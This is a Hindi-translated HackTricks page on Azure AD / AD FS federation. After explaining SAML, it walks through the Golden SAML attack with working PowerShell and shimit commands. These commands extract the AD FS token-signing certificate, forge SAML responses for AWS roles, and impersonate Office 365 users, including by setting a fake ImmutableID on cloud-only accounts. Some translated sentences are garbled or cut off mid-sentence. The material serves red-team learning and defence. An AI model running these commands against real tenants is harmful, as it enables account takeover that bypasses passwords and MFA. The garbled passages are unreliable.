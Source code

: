 # संघ

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## मौलिक जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**संघीकरण** एक **विश्वास स्थापित** करने वाले **डोमेनों** का संग्रह है। विश्वास का स्तर भिन्न हो सकता है, लेकिन सामान्यत: **प्रमाणीकरण** शामिल होता है और लगभग हमेशा **अधिकारण** शामिल होता है। एक सामान्य संघ में एक **संस्थानों की संख्या** शामिल हो सकती है जिन्होंने **संसाधनों का साझा उपयोग** के लिए **विश्वास स्थापित** किया है।

आप अपने **on-premises** पर्यावरण **को Azure AD के साथ संघीयता** दे सकते हैं और इस संघीयता का उपयोग प्रमाणीकरण और अधिकारण के लिए कर सकते हैं। यह साइन-इन विधि सुनिश्चित करती है कि सभी उपयोगकर्ता **प्रमाणीकरण on-premises पर होता है**। यह विधि प्रशासकों को अधिक सख्त स्तरों पर पहुंच नियंत्रण को लागू करने की अनुमति देती है। **AD FS** और PingFederate के साथ संघीयता उपलब्ध है।

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

संघ में, सभी **प्रमाणीकरण** on-prem पर होता है और उपयोगकर्ता को सभी विश्वसनीय पर्यावरणों में SSO का अनुभव होता है। इसलिए, उपयोगकर्ता अपने **on-prem credentials** का उपयोग करके **cloud** एप्लिकेशन तक पहुंच सकते हैं।

**सुरक्षा दावा मार्गक भाषा (SAML)** का उपयोग प्रदानकर्ताओं के बीच सभी प्रमाणीकरण और अधिकारण **जानकारी** का आदान-प्रदान करने के लिए किया जाता है।

किसी भी संघ सेटअप में तीन पक्ष होते हैं:

* उपयोगकर्ता या ग्राहक
* पहचान प्रदाता (IdP)
* सेवा प्रदाता (SP)

(छवियाँ https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. पहले, एक एप्लिकेशन (सेवा प्रदाता या SP, जैसे AWS कंसोल या vSphere वेब क्लाइंट) एक उपयोगकर्ता द्वारा एक्सेस किया जाता है। इस कदम को छोड़ दिया जा सकता है, जिससे क्लाइंट सीधे IdP (पहचान प्रदाता) पर पहुंच जाता है, विशिष्ट कार्यान्वयन पर निर्भर करता है।
2. इसके बाद, SP उपयुक्त IdP (जैसे, AD FS, Okta) को उपयोगकर्ता प्रमाणीकरण के लिए पहचानता है। फिर यह एक SAML (सुरक्षा दावा मार्गक भाषा) AuthnRequest बनाता है और क्लाइंट को चुने गए IdP पर पुनर्निर्देशित करता है।
3. IdP उपयोगकर्ता की पहचान करता है। पोस्ट-प्रमाणीकरण, IdP द्वारा एक SAMLResponse तैयार किया जाता है और उपयोगकर्ता के माध्यम से SP को फॉरवर्ड किया जाता है।
4. अंततः, SP SAMLResponse का मूल्यांकन करता है। यदि सफलतापूर्वक सत्यापित होता है, जिससे IdP के साथ विश्वास संबंध होता है, तो उपयोगकर्ता को पहुंच दी जाती है। यह लॉगिन प्रक्रिया का समापन होता है, जिससे उपयोगकर्ता सेवा का उपयोग कर सकता है।

**यदि आप SAML प्रमाणीकरण और सामान्य हमलों के बारे में अधिक जानना चाहते हैं तो जाएं:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## पिवोटिंग

* AD FS एक दावा-आधारित पहचान मॉडल है।
* "..claimsaresimplystatements(forexample,name,identity,group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
* उपयोगकर्ता के लिए दावे SAML टोकन्स में लिखे जाते हैं और फिर उन्हें IdP द्वारा गोपनीयता प्रदान करने के लिए हस्ताक्षर किया जाता है।
* एक उपयोगकर्ता को ImmutableID द्वारा पहचाना जाता है। यह वैश्विक अद्वितीय है और Azure AD में संग्रहीत है।
* TheImmuatbleIDisstoredon-premasms-DS-ConsistencyGuidforthe user and/or can be derived from the GUID of the user.
* अधिक जानकारी [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML हमला:**

* ADFS में, SAML Response को एक टोकन-हस्ताक्षरण प्रमाणपत्र द्वारा हस्ताक्षरित किया जाता है।
* यदि प्रमाणपत्र को कंप्रोमाइज़ किया गया है, तो Azure AD में सिंक किए गए किसी भी उपयोगकर्ता के रूप में प्रमाणीकरण किया जा सकता है!
* हम केवल हमारे PTA दुरुपयोग की तरह हैं, उपयोगकर्ता के लिए पासवर्ड बदलने या MFA का कोई प्रभाव नहीं होगा क्योंकि हम प्रमाणीकरण प्रतिक्रिया को झूठा बना रहे हैं।
* प्रमाणपत्र को AD FS सर्वर से डीए प्रगतियों के साथ निकाला जा सकता है और फिर किसी भी इंटरनेट से कनेक्टेड मशीन से उपयोग किया जा सकता है।
* अधिक जानकारी [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

**प्रमाण प्रदाता (IdP)** एक **SAMLResponse** उत्पन्न करने के लिए प्रमाणित करने के लिए एक महत्वपूर्ण प्रक्रिया है। IdP के विशिष्ट कार्यान्वयन पर निर्भर करते हुए, **प्रतिक्रिया** को **हस्ताक्षरित** या **एन्क्रिप्ट** किया जा सकता है जिसमें **IdP की निजी कुंजी** का उपयोग किया जाता है। यह प्रक्रिया सुनिश्चित करती है कि SP वास्तव में एक विश्वसनीय IdP द्वारा जारी किया गया SAMLResponse की मान्यता की पुष्टि कर सकता है।

एक स्वरुपण गोल्डन टिकट हमले के साथ खिलाप किया जा सकता है, जहां उपयोगकर्ता की पहचान और अनुमतियों को प्रमाणित करने वाली कुंजी (गोल्डन टिकट के लिए KRBTGT, गोल्डन SAML के ल
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
With all the information, it's possible to forget a valid SAMLResponse as the user you want to impersonate using [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### ऑन-प्रेम -> क्लाउड
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
यह भी संभव है कि क्लाउड केवल उपयोगकर्ताओं का ImmutableID बनाया जा सकता है और उनकी प्रतिनिधित्व की जा सकती है
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
